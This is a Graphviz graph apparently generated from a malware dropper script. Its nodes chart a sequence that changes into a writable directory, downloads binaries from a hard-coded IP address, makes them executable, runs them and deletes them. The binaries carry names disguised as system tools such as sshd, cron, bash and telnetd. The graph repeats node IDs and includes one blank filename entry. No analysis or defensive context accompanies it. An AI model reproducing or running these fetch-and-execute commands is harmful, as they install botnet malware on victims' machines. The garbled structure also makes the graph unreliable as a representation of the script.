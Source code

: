 digraph {
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 10 [label="||,"];
10 [label="wget http://69.30.215.130/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 28 [label="||,"];
28 [label="wget http://69.30.215.130/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 46 [label="||,"];
46 [label="wget http://69.30.215.130/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 64 [label="||,"];
64 [label="wget http://69.30.215.130/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 82 [label="||,"];
82 [label="wget http://69.30.215.130/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 100 [label="||,"];
100 [label="wget http://69.30.215.130/pstree "];
100 -> 102 [label=";,"];
102 [label="chmod +x pstree "];
102 -> 104 [label=";,"];
104 [label="./pstree "];
104 -> 106 [label=";,"];
106 [label="rm -rf pstree "];
106 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 118 [label="||,"];
118 [label="wget http://69.30.215.130/dropbear "];
118 -> 120 [label=";,"];
120 [label="chmod +x dropbear "];
120 -> 122 [label=";,"];
122 [label="./dropbear "];
122 -> 124 [label=";,"];
124 [label="rm -rf dropbear "];
124 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 136 [label="||,"];
136 [label="wget http://69.30.215.130/wget "];
136 -> 138 [label=";,"];
138 [label="chmod +x wget "];
138 -> 140 [label=";,"];
140 [label="./wget "];
140 -> 142 [label=";,"];
142 [label="rm -rf wget "];
142 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 154 [label="||,"];
154 [label="wget http://69.30.215.130/cron "];
154 -> 156 [label=";,"];
156 [label="chmod +x cron "];
156 -> 158 [label=";,"];
158 [label="./cron "];
158 -> 160 [label=";,"];
160 [label="rm -rf cron "];
160 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 172 [label="||,"];
172 [label="wget http://69.30.215.130/ftp "];
172 -> 174 [label=";,"];
174 [label="chmod +x ftp "];
174 -> 176 [label=";,"];
176 [label="./ftp "];
176 -> 178 [label=";,"];
178 [label="rm -rf ftp "];
178 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 190 [label="||,"];
190 [label="wget http://69.30.215.130/pftp "];
190 -> 192 [label=";,"];
192 [label="chmod +x pftp "];
192 -> 194 [label=";,"];
194 [label="./pftp "];
194 -> 196 [label=";,"];
196 [label="rm -rf pftp "];
196 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 208 [label="||,"];
208 [label="wget http://69.30.215.130/sh "];
208 -> 210 [label=";,"];
210 [label="chmod +x sh "];
210 -> 212 [label=";,"];
212 [label="./sh "];
212 -> 214 [label=";,"];
214 [label="rm -rf sh "];
214 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 226 [label="||,"];
226 [label="wget http://69.30.215.130/  "];
226 -> 228 [label=";,"];
228 [label="chmod +x   "];
228 -> 230 [label=";,"];
230 [label="./  "];
230 -> 232 [label=";,"];
232 [label="rm -rf   "];
232 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 244 [label="||,"];
244 [label="wget http://69.30.215.130/apache2 "];
244 -> 246 [label=";,"];
246 [label="chmod +x apache2 "];
246 -> 248 [label=";,"];
248 [label="./apache2 "];
248 -> 250 [label=";,"];
250 [label="rm -rf apache2 "];
250 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 262 [label="||,"];
262 [label="wget http://69.30.215.130/telnetd "];
262 -> 264 [label=";,"];
264 [label="chmod +x telnetd "];
264 -> 266 [label=";,"];
266 [label="./telnetd "];
266 -> 267 [label=";,"];
}
